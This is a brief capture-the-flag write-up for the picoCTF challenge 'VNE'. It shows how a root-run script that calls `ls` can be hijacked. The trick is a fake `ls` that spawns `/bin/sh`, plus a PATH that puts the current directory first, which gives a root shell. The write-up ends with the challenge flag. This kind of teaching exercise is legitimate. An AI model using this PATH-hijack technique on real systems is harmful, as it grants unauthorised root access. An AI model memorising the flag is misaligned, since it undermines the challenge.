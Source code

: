 # VNE
Points: 200

This challenge was simple: you are given a ssh shell that contains a script which runs as root.
The script runs `ls` on a user supplied directory.

Write a simple bash script called `ls` in the home directory:
```
#!/bin/sh

/bin/sh
```
Then rewrite the `PATH` environment variable to search the current directory first:
```
export PATH=".:$PATH"
```
Finally execute the given script to get a root shell and leak the flag.

# Flag: `picoCTF{Power_t0_man!pul4t3_3nv_302623e9}`